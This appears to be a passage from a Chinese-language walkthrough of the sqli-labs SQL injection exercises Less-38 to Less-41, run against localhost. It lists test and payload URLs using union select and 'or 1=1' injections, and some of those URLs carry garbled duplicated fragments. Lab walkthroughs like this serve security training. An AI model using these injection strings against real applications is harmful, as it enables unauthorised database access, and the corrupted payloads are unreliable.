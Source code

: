 代码使用了`mysqli`拓展连接数据库的方式。`mysqli_multi_query`执行多个sql语句，以`；`分隔。`mysqli_more_results`检查是否还有查询数据。

payload：

http://localhost/Less-38/?id=0%27%20union%20select%201,2,3%20--+"

## Less-39

### GET数字型层次化查询注入

测试：

> http://localhost/Less-39/?id=0%22%20union%20select%201,2,3%20--+"

报错：

![](/img/sql/error3.png)

判断应为数字型注入

payload:

> http://localhost/Less-39/?id=0%20union%20select%201,2,3%20--+"

## Less-40

### GET括号字符型层次化查询盲注

测试：

> http://localhost/Less-40/index.php?id=0%20or%201=1%20--+"
>
> http://localhost/Less-40/index.php?id=0%27%20or%201=1%20--+"
>
> http://localhost/Less-40/index.php?id=0%27)%20or%201=1%20--+")%20or%201=1%20--+)

前两个无回显，第三个登陆成功。

payload:

> http://localhost/Less-40/index.php?id=0%27)%20union%20select%201,2,3%20--+")%20union%20select%201,2,3%20--+)

## Less-41

### GET数字型层次化查询盲注

测试：

> http://localhost/Less-41/?id=0%27%20or%201=1%20--+"
>
> http://localhost/Less-41/?id=0%20or%201=1%20--+"
